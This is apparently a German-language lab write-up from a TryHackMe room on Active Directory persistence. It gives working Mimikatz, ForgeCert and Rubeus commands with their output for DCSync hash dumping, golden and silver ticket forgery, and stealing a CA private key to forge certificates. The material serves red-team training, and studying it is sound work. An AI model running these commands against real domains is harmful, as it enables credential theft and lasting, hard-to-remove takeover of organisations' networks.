

# Persistence through Credentials

Wenn wir davon reden, unsere Zugänge zu sichern, dann haben wir meist Low sowie High Privilege Accounts bereits im Besitz.
Wir sichern im Prinzip über unseren High Privilege Accounts unseren Zugang zum Netzwerk mit einem Low-Priv Account.

Um dauerhaften Zugang zu sichern, können wir Credentials nutzen. Diese Methode ist aber relativ unsicher, da User ihre Zugangsdaten im Laufe der Zeit ändern können. 
Mit Credentials sind hier neben Username-Passwort auch Passwort Hashes gemeint.

### DC Sync

Große Organisationen verfügen in der Regel über mehrere Domain Controller an unterschiedlichen Orten. Ansonsten würden Authentifizierungen einfach viel zu lange dauern. Wenn ein Unternehmen bspw. 3 Standorte hat, befinden sich an allen Standorten Domain Controller, die das Netzwerk abbilden bzw. replizieren. Dazu läuft auf den DC ein Prozess der KCC Knowledge Consistency Checker heißt und neben der Abbildung der Topologie auch für die Synchronisation der Domain Controller untereinander zuständig ist. Dazu wird das Remote Procedure Calls Protokoll (RPC) genutzt. Was wird bspw. Synchronisiert? Sowas wie Passwortänderungen oder neue Objekte in einer Domain.
Das ist auch der Grund, wieso man nach einem Passwordchange einige Minuten warten sollte. Die DC müssen sich erst noch synchronisieren bevor wir uns in andere Standorte des Unternehmens einloggen können.

Aber nicht nur Domain Controller können eine Synchronisation iniitieren, das können auch Benutzer der Domain Admin Gruppe.
Wenn wir Zugangsdaten so eines Benutzers haben, können wir diese Nutzen, um eine DC Sync Attacke zu starten und somit Zugangsdaten zu ernten.

### Not All Credentials Are Created Equal

Bevor wir eine DC Sync Attacke starten, schauen wir uns erstmal an, was für potentielle Creds wir ernten können.
Das erste was wir mit unserem privilegierten Account machen, ist das dumpen anderer privilegierter Zugangsdaten. Dabei müssen wir aber immer im Hinterkopf behalten, dass im Falle einer Entdeckung des Angriffs dies auch die Passwörter sind, die als erstes geändert werden.

Daher ist es vielleicht sinnvoller, Zugangsdaten zu ähnlich privilegierten Accounts zu dumpen. Auch mit diesen ist es möglich, unseren Zugang zu sichern, und dabei auch noch dem Blue Team über die Schulter zu sehen. Welche Accounts wären dafür geeignet?

    - Accounts die lokale Admins auf mehreren Maschinen sind. 
    In Unternehmen gibt es auf Computern meistens ein oder zwei Gruppen die zu den lokalen Admins gehören.

    - Accounts die Delegationsberechtigung haben. 
    Damit können wir Golden und Silver Tickets erstellen und Kerberos Delegation Attacken starten.

    - Accounts für privilegierte AD Services.
    Wenn wir Konten privilegierter Dienste wie Exchange, Windows Server Update Services (WSUS) oder System Center Configuration Manager (SCCM) kompromittieren, könnten wir AD-Exploitation nutzen, um wieder privilegierten Fuß zu fassen. 

### DCSyncALL


Wir werden Mimikatz verwenden, um Anmeldeinformationen zu sammeln. Stellen Sie über das DA-Konto eine SSH-Verbindung zu THMWRK1 her und laden Sie Mimikatz:


```bash
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:aaron.jones 
[DC] 'za.tryhackme.loc' will be the domain          
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'aaron.jones' will be the user account 
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones 

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 ( USER_OBJECT ) 
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 5/11/2022 10:39:47 AM
SID history:
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429
Object Relative ID   : 1429

Credentials: 
  Hash NTLM: 43460d636f269c709b20049cee36ae7a
    ntlm- 0: 43460d636f269c709b20049cee36ae7a
    ntlm- 1: fbdcd5041c96ddbd82224270b57f11fc 
    lm  - 0: 55979acd40202774b89e9ff1eb9d86fe
    lm  - 1: e6c2b01cf3c84a3f3c28a0799d3795e9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 9985ded75738e593e09870a3cee0df28

* Primary:Kerberos-Newer-Keys * 
    Default Salt : ZA.TRYHACKME.LOCaaron.jones
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : cd9b591fcca6557da3333c2d152688faae90e035fd6989ddefbbff223d7780f2
      aes128_hmac       (4096) : 649086d9de8d61822e4db38fab00800c 
      des_cbc_md5       (4096) : b697c215dc31a252
    OldCredentials
      aes256_hmac       (4096) : decb3a70399a887d38b4b47a3491340b0aee66e22a3a03e4d5c4ce7da27b024a
      aes128_hmac       (4096) : d3caf90828764b26a44220a27f8d009a 
      des_cbc_md5       (4096) : 97cb2aad9eda295b

* Primary:Kerberos *
    Default Salt : ZA.TRYHACKME.LOCaaron.jones
    Credentials
      des_cbc_md5       : b697c215dc31a252
    OldCredentials
      des_cbc_md5       : 97cb2aad9eda295b

* Packages * 
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  0672ee04922e30e418c100a125d71719
    02  a515cffaefc9f255773233ff91be2531
    03  dc7aa196e228f97285dee07b8196710e 
    04  0672ee04922e30e418c100a125d71719
    05  a515cffaefc9f255773233ff91be2531
    06  6ab817e9877493b508b2d00d6a0a67fd
    07  0672ee04922e30e418c100a125d71719 
    08  1eed04f94f3524b239564f0e7a7ea433
    09  1eed04f94f3524b239564f0e7a7ea433 
    10  62e440f6f5675dcae67ebd3eb3d63fd3 
    11  9209d1755d7028cb7529dd1447f1fcb1
    12  1eed04f94f3524b239564f0e7a7ea433
    13  c24b8c21be06a69de6288118bb4b4efc
    14  9209d1755d7028cb7529dd1447f1fcb1
    15  877d465cc70b5c7017f4466b3cebdfb1
    16  877d465cc70b5c7017f4466b3cebdfb1 
    17  40ae844021038d4ea56462ec32fea1c5
    18  7ea1f5d3b05a2c981370e436ca56370a
    19  8bbaea9c944effe836759c4160d9341d 
    20  103abc317e17952fb397bfdfa3a0fdcf
    21  8112043495ab8865c1f1d41297beb73d 
    22  8112043495ab8865c1f1d41297beb73d
    23  52d7c0f767fc03c0fc392c98c9590ab2
    24  046e60327c1fda4ef45f13fb078eff15
    25  046e60327c1fda4ef45f13fb078eff15 
    26  386ce0a01a0403ead0347acc67e1512b
    27  accd84e4d351b5624a26251e4e2c7963
    28  19cc64a58cd2cd376a4cefb81d5b0c13
    29  27cfdf6dd25951393fdfc93ce7516f81

```

Wir sehen einiges an Output, aber vorallem einen NTLM Hash des Benutzers aaron.jones.
Wir wollen aber natürlich ALLE Accounts DC Syncen. Dazu aktivieren das logging in Mimikatz:

```bash
mimikatz # log <username>_dcdump.txt 
Using '<username>_dcdump.txt' for logfile: OK
```

Anstatt unser Konto anzugeben, verwenden wir nun das Flag /all:

>lsadump::dcsync /domain:za.tryhackme.loc /all

Das ganze wird jetzt eine Weile dauern, aber bringt uns am Ende die Hash Werte für jeden Account.

Wir können diese dann bspw. auf Crackstation cracken lassen. Ich habe das mal für den User "aaron.jones" gemacht.

# Persistence through Tickets


### Tickets to the Chocolate Factory


Bevor wir uns Golden und Silver Tickets anschauen, gehen wir nochmal die Kerberos Authentifizierung durch:



Wenn ein Benutzer auf ein Netzwerk zugreifen möchte, sendet er eine Art Anfrage an den Schlüsselverteilungsdienst (KDC) auf dem Domänencontroller (DC). Diese Anfrage wird als AS-REQ bezeichnet und enthält eine Zeitstempelinformation, die mit dem NTLM-Hash des Benutzers verschlüsselt ist. Dieser Schritt ist im Wesentlichen die Bitte um ein Ticket-Granting-Ticket (TGT).

Der DC überprüft die Informationen in der Anfrage und sendet das TGT an den Benutzer zurück. Das TGT ist mit dem Passworthash des KRBTGT-Benutzerkontos signiert, der nur auf dem DC gespeichert ist.

Mit dem erhaltenen TGT kann der Benutzer nun beim DC ein Ticket-Granting-Service (TGS) für die Ressource beantragen, auf die er zugreifen möchte. Wenn das TGT gültig ist, antwortet der DC mit einem TGS, das mit dem NTLM-Hash des Dienstes verschlüsselt ist, den der Benutzer nutzen möchte.

Der Benutzer präsentiert dieses TGS dann dem Dienst, für den er Zugriff möchte. Der Dienst kann das TGS überprüfen, da er seinen eigenen Hash kennt und dem Benutzer Zugriff gewähren kann, wenn alles in Ordnung ist.

### Golden Tickets

Golden Tickets sind gefälschte TGTs (Ticket Granting Tickets). Das bedeutet, wir umgehen die Schritte 1 und 2 des oben gezeigten Diagramms, bei denen wir dem Domain Controller beweisen, wer wir sind. Wenn wir ein gültiges TGT eines privilegierten Kontos haben, können wir jetzt ein TGS (Ticket Granting Service) für fast jeden Dienst anfordern, den wir wollen. Um ein goldenes Ticket zu fälschen, benötigen wir den Passworthash des KRBTGT-Kontos, damit wir ein TGT für jedes Benutzerkonto signieren können, das wir möchten. Einige interessante Anmerkungen zu Golden Tickets:

1. Indem wir uns in diesem Stadium des Kerberos-Prozesses einschleusen, benötigen wir nicht den Passworthash des Kontos, das wir vorgeben zu sein, da wir diesen Schritt umgehen. Das TGT wird nur verwendet, um zu beweisen, dass es vom KDC (Key Distribution Center) auf einem Domain Controller signiert wurde. Da es vom KRBTGT-Hash signiert wurde, erfolgt diese Überprüfung und das TGT wird für gültig erklärt, unabhängig von seinem Inhalt.

2. Was den Inhalt betrifft, validiert der KDC das im TGT angegebene Benutzerkonto nur, wenn es älter als 20 Minuten ist. Das bedeutet, wir können ein deaktiviertes, gelöschtes oder nicht vorhandenes Konto in das TGT eintragen, und es wird gültig sein, solange wir sicherstellen, dass der Zeitstempel nicht älter als 20 Minuten ist.

3. Da die Richtlinien und Regeln für Tickets im TGT selbst festgelegt sind, könnten wir die vom KDC übermittelten Werte überschreiben, wie zum Beispiel, dass Tickets nur 10 Stunden gültig sein sollten. Wir könnten zum Beispiel sicherstellen, dass unser TGT 10 Jahre lang gültig ist, was uns Beharrlichkeit verleiht.

4. Standardmäßig ändert sich das Passwort des KRBTGT-Kontos nie, was bedeutet, dass wir, sobald wir es haben, so lange persistenten Zugriff haben, wie es nicht manuell geändert wird, indem wir TGTs immer wieder generieren.

5. Das blaue Team müsste das Passwort des KRBTGT-Kontos zweimal ändern, da das aktuelle und das vorherige Passwort für das Konto gültig bleiben. Dies soll sicherstellen, dass eine versehentliche Änderung des Passworts keine Auswirkungen auf die Dienste hat.

6. Die Änderung des Passworts des KRBTGT-Kontos ist ein äußerst schmerzhafter Prozess für das blaue Team, da dies dazu führen wird, dass eine signifikante Anzahl von Diensten in der Umgebung nicht mehr funktioniert. Sie denken, sie haben ein gültiges TGT, manchmal für die nächsten paar Stunden, aber dieses TGT ist nicht mehr gültig. Nicht alle Dienste sind klug genug, das TGT freizugeben, wenn es nicht mehr gültig ist (da der Zeitstempel noch gültig ist), und fordern daher nicht automatisch ein neues TGT an.

7. Goldene Tickets würden es sogar ermöglichen, die Authentifizierung per Smartcard zu umgehen, da die Smartcard vom DC überprüft wird, bevor es das TGT erstellt.

8. Wir können ein goldenes Ticket auf jedem Computer generieren, selbst auf einem, der nicht in die Domäne eingebunden ist (wie unsere eigene Angriffsmaschine), was es für das blaue Team schwieriger macht, es zu erkennen.

Abgesehen vom Passwort-Hash des KRBTGT-Kontos benötigen wir nur den Domänennamen, die Domänen-SID und die Benutzer-ID der Person, die wir imitieren möchten. Wenn wir in der Lage sind, an den Passwort-Hash des KRBTGT-Kontos zu kommen, sind wir bereits in der Lage, die anderen Teile der erforderlichen Informationen finden.


### Silver Tickets

Silbertickets sind gefälschte TGS-Tickets. Daher überspringen wir nun die gesamte Kommunikation (Schritt 1–4 im Diagramm oben), die wir mit dem KDC auf dem DC gehabt hätten, und verbinden uns einfach direkt mit dem Dienst, auf den wir zugreifen möchten. Einige interessante Hinweise zu Silbertickets:

1. Das generierte TGS wird vom Maschinenkonto des Zielhosts signiert.

2. Der Hauptunterschied zwischen Golden- und Silver-Tickets besteht in der Anzahl der Privilegien, die wir erwerben. Wenn wir den Passwort-Hash des KRBTGT-Kontos haben, können wir auf alles zugreifen. Da wir mit einem Silver Ticket nur Zugriff auf den Passwort-Hash des Maschinenkontos des Servers haben, den wir angreifen, können wir uns nur als Benutzer auf diesem Host selbst ausgeben. Der Umfang des Silver-Tickets ist auf den Dienst beschränkt, der auf dem jeweiligen Server angeboten wird.

3. Da das TGS gefälscht ist, gibt es kein zugehöriges TGT, was bedeutet, dass der DC nie kontaktiert wurde. Dies macht den Angriff äußerst gefährlich, da sich die einzigen verfügbaren Protokolle auf dem Zielserver befinden würden. Obwohl der Umfang begrenzter ist, ist es für das blaue Team deutlich schwieriger, ihn zu erkennen.

4. Da Berechtigungen über SIDs bestimmt werden, können wir erneut einen nicht vorhandenen Benutzer für unser Silver-Ticket erstellen, solange wir sicherstellen, dass das Ticket über die relevanten SIDs verfügt, die den Benutzer in die lokale Administratorengruppe des Hosts einordnen würden.

5. Das Passwort des Maschinenkontos wird normalerweise alle 30 Tage gewechselt, was der Persistenz nicht förderlich wäre. Wir könnten jedoch den Zugriff nutzen, den unser TGS bietet, um Zugriff auf die Registrierung des Hosts zu erhalten und den Parameter zu ändern, der für die Passwortrotation des Maschinenkontos verantwortlich ist. Dadurch wird sichergestellt, dass das Maschinenkonto statisch bleibt und uns Persistenz auf der Maschine gewährt wird.

6. Auch wenn der Zugriff nur auf einen einzelnen Host wie eine erhebliche Herabstufung erscheinen mag, können Maschinenkonten als normale AD-Konten verwendet werden, sodass Sie nicht nur administrativen Zugriff auf den Host haben, sondern auch weiterhin AD enummieren und nutzen können, wie Sie es mit einem AD Benutzerkonto tun würden .

### Forging Tickets for Fun

Okay was brauchen wir? Den NTLM Hash vom KRBTGT Account. Ausserdem den Hash des THMSERVER1 Maschinen Accounts. Auch zu finden im dem DUMP, den wir erstellt haben. Die letzte Info die wir benötigen ist die Domain SID. Wir führen folgenden Powershell Befehl auf der Maschine aus:

```bash
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.ZA> Get-ADDomain


AllowedDNSSuffixes                 : {}
ComputersContainer                 : CN=Computers,DC=za,DC=tryhackme,DC=loc
DeletedObjectsContainer            : CN=Deleted Objects,DC=za,DC=tryhackme,DC=loc
DistinguishedName                  : DC=za,DC=tryhackme,DC=loc
DNSRoot                            : za.tryhackme.loc
DomainControllersContainer         : OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DomainMode                         : Windows2012R2Domain
DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc
Forest                             : tryhackme.loc
InfrastructureMaster               : THMDC.za.tryhackme.loc
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=za,DC=tryhackme,DC=loc}
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc

```

Wir haben also alle Infos und können Mimikatz starten und folgenden Befehl ausführen:

```bash
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /pt
t
User      : ReallyNotALegitAccount
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Lifetime  : 4/11/2024 8:50:04 PM ; 4/12/2024 6:50:04 AM ; 4/18/2024 8:50:04 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'ReallyNotALegitAccount @ za.tryhackme.loc' successfully submitted for current session

mimikatz # exit
Bye!
PS C:\Users\Administrator.ZA\Documents> dir \\thmdc.za.tryhackme.loc\c$\


    Directory: \\thmdc.za.tryhackme.loc\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/15/2018   8:19 AM                PerfLogs
d-r---        5/11/2022  10:32 AM                Program Files
d-----        3/21/2020   8:28 PM                Program Files (x86)
d-----         7/6/2022   4:38 PM                tmp
da----        6/30/2022   2:58 PM                Tools
d-r---        4/27/2022   8:22 AM                Users
d----l        4/25/2022   7:11 PM                vagrant
d-----         7/3/2022   9:51 AM                Windows
-a----         1/4/2022   7:47 AM            103 delete-vagrant-user.ps1
-a----         5/1/2022   9:11 AM            169 dns_entries.csv
-a----         7/3/2022   6:05 PM           7168 shell.exe
-a----         5/1/2022   9:17 AM           1725 thm-network-setup-dc.ps1


```

```
Parameters explained:

    /admin - The username we want to impersonate. This does not have to be a valid user.
    /domain - The FQDN of the domain we want to generate the ticket for.
    /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
    /sid -The SID of the domain we want to generate the ticket for.
    /krbtgt -The NTLM hash of the KRBTGT account.
    /endin - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
    /renewmax -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
    /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
```


Wie wir sehen können, ist es möglich sich den Inhalt des Domain Controller Laufwerks anzusehen. 

Selbst wenn das goldene Ticket eine unglaublich lange Zeit gültig ist, kann sich das blaue Team dagegen wehren, indem es einfach das KRBTGT-Passwort zweimal rotiert. Wenn wir wirklich unsere Wurzeln eingraben wollen, müssen wir Silver-Tickets generieren, die weniger wahrscheinlich entdeckt werden und deutlich schwieriger abzuwehren sind, da die Passwörter jedes Maschinenkontos rotiert werden müssen. Wir können den folgenden Mimikatz-Befehl verwenden, um ein Silberticket zu generieren:

```bash
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:THMSERVER1.za.tryhackme.loc /rc4:4c02d970f7b3da7f8ab6fa4dc77438f
4 /service:cifs /ptt
User      : StillNotALegitAccount
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4c02d970f7b3da7f8ab6fa4dc77438f4 - rc4_hmac_nt
Service   : cifs
Target    : THMSERVER1.za.tryhackme.loc
Lifetime  : 4/11/2024 8:56:34 PM ; 4/9/2034 8:56:34 PM ; 4/9/2034 8:56:34 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'StillNotALegitAccount @ za.tryhackme.loc' successfully submitted for current session

mimikatz # exit
Bye!
PS C:\Users\Administrator.ZA\Documents> dir \\thmserver1.za.tryhackme.loc\c$\


    Directory: \\thmserver1.za.tryhackme.loc\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/30/2022  11:07 AM                inetpub
d-----        9/15/2018   8:19 AM                PerfLogs
d-r---        4/30/2022  11:07 AM                Program Files
d-----        4/30/2022  11:07 AM                Program Files (x86)
d-----        4/27/2022   9:24 PM                Python310
d-----        4/30/2022  11:17 AM                Temp
d-----        4/25/2022   8:59 PM                tmp
d-r---        6/30/2022  11:08 PM                Users
d----l        4/25/2022   8:57 PM                vagrant
d-----        4/27/2022   9:24 PM                Windows                                                                                                                                                        
-a----        4/30/2022   3:45 PM           7743 auto-login.ps1
-a----         1/4/2022   7:47 AM            103 delete-vagrant-user.ps1
-a----         3/2/2022   8:32 PM            718 thm-network-setup.ps1
```

```
Parameters explained:

    /admin - The username we want to impersonate. This does not have to be a valid user.
    /domain - The FQDN of the domain we want to generate the ticket for.
    /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
    /sid -The SID of the domain we want to generate the ticket for.
    /target - The hostname of our target server. Let's do THMSERVER1.za.tryhackme.loc, but it can be any domain-joined host.
    /rc4 - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of THMSERVER1$. The $ indicates that it is a machine account.
    /service - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
    /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
```


# Persistence through Certificates

***Diese Methode ist höchst invasiv. Das bedeutet, die Techniken hier sind nicht rückgängig zu machen und führen dazu, die Domain vollständig neu aufzubauen. Daher ist es nicht ratsam, diese Techniken in einem Red Team Einsatz zu nutzen. Vielmehr werden diese nur simuliert.***

Die letzten beiden Techniken für Persistenz basierten auf Credentials. Wir können damit einem Blue Team zwar deutlich erschweren, letztendlich besteht aber immer die Möglichkeit durch Passwortrotation uns aus dem System zu werfen. Wie können wir dem entgegen wirken? Eine Möglichkeit sind Zertifikate.

### The Return of AD CS

Das Exploiten mithilfe von Zertifikaten haben wir ja schon im **Exploiting AD** Room kennengelernt, wo sie uns dabei geholfen haben, einen Domain Admin Zugang zu bekommen. Hier werden sie uns dabei helfen, einen dauerhaften Zugang zu erhalten. Alles was wir brauchen ist ein gültiges Zertifikat zur Client Authentifizierung. Das erlaubt uns, ein TGT beim KDC anzufragen. Egal wieviele Passwort Rotations das Blue Team macht, wir können TGT´s immer wieder anfragen. Die einzige Möglichkeit uns dieses zu verwehren wäre das Zertifikat zu blockieren. 

Sollte Bedarf bestehen, können wir uns ja nochmal Den Exoloiting AD Room anschauen. Jetzt haben wir es aber erstmal auf den Certificate Authority (CA) abgesehen. 

Abhängig von unserem Zugang können wir noch einen Schritt weiter gehen. Wir könnten ganz einfach vom root CA Zertifikat die privaten Schlüssel stehlen und unsere eigenen Zertifikate erstellen. Und das schlimme daran ist, dass das Blue Team diese Zertifikate nicht blocken kann, da sie nicht vom CA in Auftrag gegeben wurden. Man stelle sich vor man versucht die Domain wiederherzustellen, rotiert alle Passwörter, resettet alle Golden und Silver Tickets und erkennt dann, dass der Angreifer seinen Zugang dauerhaft eingerichtet hat, indem er die Certificate Authority geworden ist. 

### Extracting the Private Key

Okay wir fangen also mal mit dem CA an und versuchen den Private Key von diesem zu stehlen. 
Der Private Key des CA befindet sich auf dem CA Server selbst. Wenn der Schlüssel nicht über eine hardware-basierte Preotection wie bspw. Hardware Security Modul (HSM) geschützt ist, was übrigends häufig der Fall ist in Unternehmen die einfach nur AD CS für interne Dinge nutzen, ist der Schlüssel über die Machine Data Protection API (DPAPI) gesichert. 
Das bedeutet, wir wir können Tools wie Mimikatz oder SharpDPAPI nutzen um damit das CA zertifikat und somit den Private Key des CA zu extrahieren. 
Am einfachsten geht es mit Mimikatz, aber falls man auch andere nutzen möchte, einfach mal [hier klicken](https://pentestlab.blog/2021/11/15/golden-certificate/)

Wir loggen uns per SSH auf THMDC.za.tryhackme.loc mit unserem Admin Acc ein, erstellen nen eigenen Ordner und starten Mimikatz.

Dann schauen wir uns mit foglendem Befehl an, welche zertifikate überhaupt auf dem Domain Controller gespeichert sind:

>crypto::certificates /systemstore:local_machine

Wir kriegen folgenden Output: 

```bash
mimikatz # crypto::certificates /systemstore:local_machine
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
[....]
```
In diesem Fall sind 4 zertifikate auf dem DC gespeichert, allerdings lassen sich aus diesen der Key wohl nicht exportieren. Zum Glücl lässt uns Mimikatz den Speicher patchen, sodass wir die die Schlüssel exportieren können:

```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```

Die exportierten Zertifikate befinden sich jetzt als *.pfx und *.der Format auf der Platte:

```bash
za\administrator@THMDC C:\Users\Administrator.ZA\am0>dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of C:\Tools\x64

05/10/2022  12:12 PM    <DIR>          .
05/10/2022  12:12 PM    <DIR>          ..
05/10/2022  12:12 PM             1,423 local_machine_My_0_.der
05/10/2022  12:12 PM             3,299 local_machine_My_0_.pfx
05/10/2022  12:12 PM               939 local_machine_My_1_za-THMDC-CA.der
05/10/2022  12:12 PM             2,685 local_machine_My_1_za-THMDC-CA.pfx
05/10/2022  12:12 PM             1,534 local_machine_My_2_THMDC.za.tryhackme.loc.der
05/10/2022  12:12 PM             3,380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
05/10/2022  12:12 PM             1,465 local_machine_My_3_.der
05/10/2022  12:12 PM             3,321 local_machine_My_3_.pfx 
```

Für uns extren interessant ist das "za-THMDC-CA.pfx" zertifikat. Um den Private Key zu exportieren muss ein Passwort zu Verschlüsselung des Zertifikates gesetzt werden. Standardmäßig setzt Mimikatz hier ***mimikatz*** also Passwort.
Wir laden das Zertifikate herunter und laden es auf THMWRK1 ins Verzeichnis unserer "Low-Priv" Users hoch.

Recap Download via SCP:
>scp username@remote_host:/path/to/downloadme.exe /local/path/to/save


Recap Upload via SCP:
>scp /local/path/to/uploadme.exe username@remote_host:/remote/path/to/save


### Generating our own Certificates

Wir haben also den Private Key und das root CA Zertifikat. Wir können mit dem [ForgeCert](https://github.com/GhostPack/ForgeCert) Tool nun ein Client Authenticate Certificate erstellen:

```bash
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

```
Parameters Explained:
CaCertPath - The path to our exported CA certificate.

CaCertPassword - The password used to encrypt the certificate. By default, Mimikatz assigns the password of mimikatz.

Subject - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.

SubjectAltName - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.

NewCertPath - The path to where ForgeCert will store the generated certificate.

NewCertPassword - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.
```

Super, wir können jetzt mit Rubeus ein TGT anfragen und dabei unser frisches Zertifiakt testen:

```bash
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>
```
```
Let's break down the parameters:

/user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
/enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
/certificate - Path to the certificate we have generated
/password - The password for our certificate file
/outfile - The file where our TGT will be output to
/domain - The FQDN of the domain we are currently attacking
